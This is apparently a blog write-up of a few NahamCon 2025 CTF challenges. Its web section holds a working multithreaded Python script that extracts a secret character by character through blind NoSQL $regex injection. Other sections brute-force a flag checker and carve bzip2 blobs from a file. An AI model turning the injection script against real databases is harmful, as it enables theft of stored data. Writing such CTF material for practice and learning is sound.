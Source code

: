 ```yaml
---
layout: post
title:  "NahamCon 2025 CTF"
date:   2025-05-28
tags:  web reversing misc
description: Solutions for some challenges from NahamCon 2025 CTF.
image: "/assets/img/2025-05-28-nahamcon-ctf-2025/logo.png"
---
```


I played the CTF with my friends over at FetchOrbisX :D

Only got to play for a few hours over the weekend, but I had fun solving a few of them.

## NoSequel (Web)

This challenge about querying NoSQL to obtain the flag from the `flag` collections.
We're only able to use `$regex` on the `flag` collection, so we can't get the query's output directly.
Instead, we can use `$regex` to match the flag character-by-character.

```python{% raw %}
import requests
import string
import sys
from concurrent.futures import ThreadPoolExecutor, as_completed
import threading

charset = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"
url = 'http://challenge.nahamcon.com:32707/search'

flag = "flag{"
lock = threading.Lock()

def test_char(char, current_flag):
    attempt = current_flag + char
    payload = {
        "query": f'flag:{{$regex:"^{attempt}"}}',
        "collection": "flags"
    }
    try:
        response = requests.post(url, data=payload)
        if "Pattern matched" in response.text:
            return char
    except Exception:
        pass
    return None

def find_next_char(current_flag):
    with ThreadPoolExecutor(max_workers=20) as executor:
        futures = {executor.submit(test_char, c, current_flag): c for c in charset}
        for future in as_completed(futures):
            result = future.result()
            if result:
                return result
    return None

while True:
    sys.stdout.write(f"\r[*] Current flag: {flag}")
    sys.stdout.flush()
    next_char = find_next_char(flag)
    if next_char:
        flag += next_char
        print(f"\r[+] Found: {flag}")
        if next_char == "}":
            print(f"[✓] Final flag: {flag}")
            break
    else:
        print("\n[!] No matching character found. Exiting.")
        break
``` {% endraw %}

## FlagsFlagsFlags (Reversing)

This is a flag checker challenge, and we're given a stripped go binary.
If we run `strings` on it, we'll see a huge bunch of flags (literally about 100k).
I didn't want to reverse the challenge's flag checking logic, and based on the challenge description, it was a pretty good guess that one of these flags would be the answer.

So, we brute-forced. 🦍🦍🦍

Get the flags:

```
strings flagsflagsflags | grep -oE 'flag\{[0-9a-fA-F]+\}' > flags.txt
```

Brute force go brrr
```
cat flags.txt | xargs -n1 -P8 -I{} sh -c 'echo "Trying {}"; echo {} | ./flagsflagsflags | grep -v "Incorrect\|Enter"' | tee -a flags.log
```

flag{20dec9363618a397e9b2a0bf5a35b2e3}

## The Martian (Misc)

Jumbled file, stego challenge. There are multiple bzip2 blobs in the file, shown by BZh header. Make chatgpt write a script to carve the blobs then one of them has the flag image.

```python
import bz2

with open("challenge.martian", "rb") as f:
    data = f.read()

# Look for BZip2 header
marker = b'BZh91AY&SY'
start = data.find(marker)
if start != -1:
    with open("image.bz2", "wb") as f_out:
        f_out.write(data[start:])

    with open("image.bz2", "rb") as f:
        decompressed = bz2.decompress(f.read())

    with open("extracted_image.jpg", "wb") as f:
        f.write(decompressed)

    print("Image saved as extracted_image.jpg")
else:
    print("No BZip2 header found.")
```

![](/assets/img/2025-05-28-nahamcon-ctf-2025/martian.png)